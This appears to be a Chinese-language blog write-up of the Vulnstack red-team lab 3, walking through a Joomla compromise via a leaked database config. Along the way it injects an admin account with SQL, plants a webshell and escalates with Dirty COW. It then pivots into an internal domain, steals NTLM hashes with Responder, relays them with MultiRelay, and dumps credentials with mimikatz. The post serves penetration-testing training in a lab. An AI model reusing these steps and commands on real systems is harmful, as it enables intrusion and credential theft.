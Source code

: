 ```yaml
---
layout:     post
title:    渗透-Vulnstack靶机学习3
subtitle:   靶机渗透
date:       2020-01-24
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 红队
    - 内网渗透
---
```

# 渗透-Vulnstack靶机学习3

Vulnstack是红日安全团队出品的一个实战环境，本次测试的红日安全 ATT&CK实战系列——红队实战（三）靶场环境，下载地址：[http://vulnstack.qiyuanxuetang.net/vuln/detail/5/](http://vulnstack.qiyuanxuetang.net/vuln/detail/5/)  


## Web
一共五个虚拟机文件，下载完后全部启动，有一个web，默认是192.168.1.110，我这改过后面换成了104。  
访问是一个joomla的站。  
![200124_1](/img/200124_joomla.png)  
查看了下版本，比较高，应该是不存在直接可以利用的漏洞。  
![200124_2](/img/200124_joomlaver.png)      
一步一步来，先扫一下目录和文件。  
![200124_3](/img/200124_dirscan.png)  
可以看到有个配置文件的备份文件泄漏。  
![200124_4](/img/200124_configbak.png)  
里面有一个mysql的测试账户，如果3306对外开放，可以利用这个测试账户，修改数据库，添加管理进入后台。测试下3306是否对外开放。  
![200124_5](/img/200124_3306.png)  
端口是开着的。登陆下试试，可以登陆。  
![200124_6](/img/200124_mysqllogin.png)  
根据官方手册，添加一个admin2 密码为secret的账户。  
```
NSERT INTO `am2zu_users`
   (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)
VALUES ('Administrator2', 'admin2',
    'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());
INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`)
VALUES (LAST_INSERT_ID(),'8');
```   
图中踩了个小坑，表前缀根据配置文件的来，而不是数据库中显示的。  
![200124_7](/img/200124_addadmin.png)  
登陆以后拿webshell比较简答，在模板中创建文件即可。  
![200124_8](/img/200124_webshell.png)  
用蚁剑链接后，不能执行命令。  
![200124_9](/img/200124_runerror.png)  
没有关系，直接翻文件，翻了一圈，翻到一个有意思的文件。  
![200124_10](/img/200124_test.png)  
尝试登陆一下，emmm可以成功登陆192.168.1.104。对比发现文件目录并不一样，推测104是一个反向代理服务器。    
![200124_11](/img/200124_ifconfig2.png)   
## 内网 提权
看了下内核版本，应该可以用脏牛提权。  
![200124_12](/img/200124_dirtycow.png)  
然后用msf生成个elf，反弹下，用这个去扫内网快一点。  
![200124_13](/img/200124_payload.png)  
添加路由。  
![200124_14](/img/200124_addroute.png)  
扫一下内网smb，有3台。  
![200124_15](/img/200124_smbscan.png)  
基本的内网拓扑就知道了，一台centos反向代理了一个web，两张网卡，内网由一个web服务器，没有去尝试执行命令和提权，然后是一个三台win组成的域环境，192.168.93.10，192.168.93.20，192.168.93.30.  
扫了下端口服务，发现有一台192.168.93.20开启了1433端口，测试能用之前mysql的testuser账号密码登陆，其他的ms17010均不行。  
尝试使用mssql来完成ntlm中继的过程。正常情况下要在服务器上去操作dir远程主机的命令（不用net use 是因为dir会自动测试本地已有的hash，而不需要手动输入）， 这里利用mssql调用***xp_dirtree***来代替完成这个过程。  
上传Responder至104并开启。然后在msf中调用模块(***auxiliary/admin/mssql/mssql_ntlm_stealer***)去触发UNC。  
![200124_16](/img/200124_unc.png)  
192.168.1.104上开启responder。  
![200124_17](/img/200124_responder.png)   
获取到hash，可以尝试破解。实际上不破解也可以，配合利用MultiRelay进行转发即可。   
## smb中继 
在实际测试中发现了一个问题，我这里192.168.93.30去尝试登陆20不行，反过来是可以的，所以为了测试，并写中继的过程，我是手动去完成这个过程的，登陆了20执行了dir命令。    
先在104上开启MultiRelay。  
```
python MultiRelay.py -t 192.168.93.20 -u Administrator
``` 
-t是尝试去登陆的机器，实际上应该是由20发起登陆请求中继登陆30，这里我是反过来了，没办法是这样的。这里-u我写了administrator，因为我知道有这个账户，不知道的话就写ALL。  
然后去192.168.93.30上执行：  
```
dir \\192.168.93.100\c$
```
然后在MultiRelay中会返回一个shell。  
![200124_18](/img/200124_shell.png)  
使用mimikatz读取密码.  
![200124_19](/img/200124_mimikatz.png)  
仔细看是有域管的密码的。  
那就已经完毕了。  
![200124_20](/img/200124_domianip.png)  
如果照原始的套路来做，会麻烦一点，多一步，我们是根据20登陆的30，30读到的密码，需要再去登陆20，然后mimikatz，比较绕。 原理是一样的。  


## 参考
[https://xz.aliyun.com/t/6988](https://xz.aliyun.com/t/6988)   
[https://www.jianshu.com/p/c7d8e7d9c03c](https://www.jianshu.com/p/c7d8e7d9c03c)  
[https://xz.aliyun.com/t/3560](https://xz.aliyun.com/t/3560)  
